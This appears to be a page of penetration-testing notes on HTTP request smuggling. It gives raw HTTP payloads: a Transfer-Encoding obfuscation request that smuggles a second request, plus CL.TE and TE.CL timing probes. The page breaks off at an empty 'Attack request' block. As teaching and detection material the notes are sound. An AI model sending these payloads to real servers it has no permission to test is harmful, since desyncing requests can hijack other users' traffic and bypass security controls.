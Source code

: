 ```
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-encoding: x

65
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0

```
## Finding HTTP request smuggling vulnerabilities using timing techniques
The most generally effective way to detect HTTP request smuggling vulnerabilities is to send requests that will cause a time delay in the application's responses if a vulnerability is present. This technique is used by Burp Scanner to automate the detection of request smuggling vulnerabilities.  
### Finding CL.TE vulnerabilities using timing techniques
Such request must cause delay:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```
Since the front-end server uses the Content-Length header, it will forward only part of this request, omitting the X. The back-end server uses the Transfer-Encoding header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay.  
### Finding TE.CL vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
Since the front-end server uses the Transfer-Encoding header, it will forward only part of this request, omitting the X. The back-end server uses the Content-Length header, expects more content in the message body, and waits for the remaining content to arrive. This will cause an observable time delay.  
To be stealthy and minimize disruption, you should use the CL.TE test first and continue to the TE.CL test only if the first test is unsuccessful.  
## Confirming HTTP request smuggling vulnerabilities using differential responses
To confirm vulnerability we must quickly send attack and normal request  
If the response to the normal request contains the expected interference, then the vulnerability is confirmed.  
### Confirming CL.TE vulnerabilities using differential responses
Attack request:
```
```